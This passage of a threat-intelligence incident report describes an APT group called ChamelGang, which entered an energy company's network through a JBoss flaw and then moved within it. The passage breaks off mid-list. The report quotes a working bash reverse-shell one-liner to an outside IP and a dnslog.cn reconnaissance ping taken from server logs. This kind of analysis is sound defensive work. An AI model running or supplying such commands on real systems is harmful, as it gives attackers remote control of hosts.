 
	To achieve their goals, the attackers used such well-known malicious programs as FRP, Cobalt Strike Beacon, and Tiny shell. They also used new, previously unknown malware (for example, ProxyT, BeaconLoader, and DoorMe backdoor).


	Despite the fact that we managed to conduct two successful investigations, we could not unequivocally attribute the attackers to any of the known APT groups. We named the new group ChamelGang (from the word "chameleon"), since in both cases the group disguised its malware and network infrastructure under legitimate services of such companies as Microsoft, TrendMicro, McAfee, IBM, and Google.
	
CASE #1
1.1. Sequence of events

	The reason for the investigation was the multiple triggering of the company's antivirus products reporting the presence of Cobalt Strike Beacon in RAM.
	
1.2. Initial infection vector

	At the end of March 2021, the attackers compromised a subsidiary organization to gain access to the energy company's network, using a vulnerable version of a web application on the JBoss Application Server platform. The investigation revealed that the attackers, having exploited vulnerability CVE-2017-12149, were able to remotely execute commands on the host.


	When analyzing the server logs, vuln6581362514513155613jboss records were found on the compromised host, indicating that the public exploit jboss-_CVE-2017-12149 had been used.

  Figure 1. Example of how the exploit works 


  Figure 2. Artifact on the compromised host 

Also, the server.log logs contained all the command execution results. Note that the commands were those typically used for reconnaissance on hosts. The following one was the most noteworthy:
	
    
Caused by: java.lang.Exception: [L291919]
PING ci6i6b.dnslog.cn (127.0.0.1) 56(84) bytes of data.
	    
	

The dnslog.cn service generates a random third-level domain, which will later be used to obtain information about the availability of infected hosts. The infected device tries to allow this domain. In case of success, the computer gains Internet access, otherwise, it is located in a restricted access network. Below is an example of how the service works:
	
  Figure 3. Example of how the dnslog.cn service works 
1.3. Lateral movement

	 To control the compromised host and perform reconnaissance on it, the attackers used the following tools:
	 

Single-line reverse shell:
    
bash -i >& /dev/tcp/115.144.122.8/5555 0>&1
	    
	
Tiny SHell (public UNIX backdoor)

		It is able to:
		